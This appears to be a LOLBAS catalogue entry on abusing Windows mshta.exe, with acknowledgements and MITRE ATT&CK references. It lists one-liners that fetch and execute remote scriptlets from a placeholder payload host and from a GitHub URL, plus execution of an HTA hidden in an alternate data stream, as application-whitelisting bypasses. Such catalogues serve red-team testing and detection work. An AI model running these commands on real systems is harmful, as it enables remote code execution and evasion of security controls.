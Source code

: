 ## mshta.exe

* Functions: Execute, Read ADS

```
mshta.exe evilfile.hta    

mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))    

mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();     
    
mshta "C:\ads\file.txt:file.hta"
```

Acknowledgements:
* Casey Smith - @subtee
* Oddvar Moe - @oddvarmoe

Code sample:
* [Mshta_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Mshta_calc.sct)

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md      
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4     
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct     
* https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/    
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

Full path:
```
C:\Windows\System32\mshta.exe
C:\Windows\SysWOW64\mshta.exe
```

Notes:
SCT code borrowed from Red Canary - Atomic Red Team 

MITRE ATT&CK:
* [Mshta](https://attack.mitre.org/wiki/Technique/T1170)
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
